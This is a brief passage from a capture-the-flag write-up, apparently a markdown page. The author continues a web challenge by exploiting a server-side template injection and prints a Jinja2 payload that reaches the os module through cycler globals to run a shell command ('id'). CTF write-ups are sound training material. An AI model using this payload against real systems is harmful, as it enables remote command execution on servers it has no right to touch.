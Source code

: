 we got our flag.

## Challenge Name :

![image.png](images/image%2032.png)

we are given the same url. so we need to continue…

from previous challenge we could inject `ssti` confirmation payload and it worked. in this part we’ll exploit it.

```python
{{cycler.__init__.__globals__.os.popen('id').read() }}
```
